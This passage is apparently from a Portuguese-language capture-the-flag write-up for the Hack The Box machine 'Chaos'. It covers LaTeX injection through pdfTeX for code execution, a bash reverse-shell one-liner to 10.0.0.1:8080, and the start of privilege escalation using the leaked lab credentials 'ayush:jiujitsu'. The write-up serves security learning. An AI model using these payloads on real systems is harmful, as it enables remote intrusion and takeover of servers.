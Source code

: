 
No email, a dica era:  


```
"Hii, sahay
Check the enmsg.txt
You are the password XD."
```

Entao, usamos nosso nome **"sahay"** como senha.
A saida:


![10](https://i.imgur.com/CE5E6WI.png)


## Exploracao e obtencao de shell


Acessando `http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3`, temos:


![11](https://i.imgur.com/WEBJxLo.png   )


Utilizando um proxy e checando a saida desta requisicao, vemos:


![12](https://i.imgur.com/Fcrff2p.png)


* e Possivel vermos [pdfTeX](https://en.wikipedia.org/wiki/PdfTeX) no corpo da resposta


Abusando do LaTeX injection, podemos obter uma possivel execucao de codigo remoto.
A estrutura do payload: `\immediate\write18{env > output}` ou `\input{output}`. Outros exemplos podem ser encontrados em [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection).


Enviando uma requisicao de shell reversa, temos a saida:


payload: `bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'` [ encoded as url ]


![13](https://i.imgur.com/d5LK9SK.png)


## Escalada de privilegios 1/2


Apos usar o python pty, podemos utilizar do usuario `ayush:jiujitsu` que conseguimos anteriormente.


![14](https://i.imgur.com/aUAue6V.png)


Conseguimos o acesso, porem, com uma shell restrita.
Podemos visualizar os binarios quais podemos executar, exibindo o PATH e utilizando da tecla **tab**.

